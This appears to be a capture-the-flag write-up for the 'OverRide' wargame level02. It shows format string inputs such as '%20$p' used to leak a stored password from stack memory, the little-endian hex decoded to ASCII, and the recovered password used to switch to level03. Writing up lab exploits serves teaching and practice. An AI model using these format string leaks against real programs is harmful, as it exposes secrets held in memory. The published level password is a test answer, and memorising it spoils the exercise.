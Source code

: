 # Level02 Exploit

## Steps

### 1. Program Behavior

Run the program to observe its behavior:

```bash
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: test
--[ Password: test
*****************************************
test does not have access!
```

### 2. Vulnerability Discovery

Identify the format string vulnerability:

```bash
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: AAAA %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
--[ Password: *****************************************
AAAA ffffe4f0 0 78 2a2a2a2a 2a2a2a2a ffffe6e8 f7ff9a08 78 0 0 0 0 0 0 0 0 0 0 0 0 0 34376848 61733951 574e6758 6e475873 664b394d 0 41414141 25207825 20782520 78252078  does not have access!
```

### 3. Exploiting the Vulnerability

Leak the password from memory:

```bash
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %20$p %21$p %22$p %23$p %24$p %25$p %26$p %27$p %28$p
--[ Password: 
*****************************************
0x100000000 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d (nil) 0x3225207024303225 does not have access!
```

### 4. Decoding the Password

Convert leaked hex to ASCII, considering little-endian order:

Hex: `0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d`
Password: `Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H`

### 5. Accessing the Next Level

Use the decoded password to access level03:

```bash
level02@OverRide:~$ su level03
Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
level03@OverRide:~$ 
```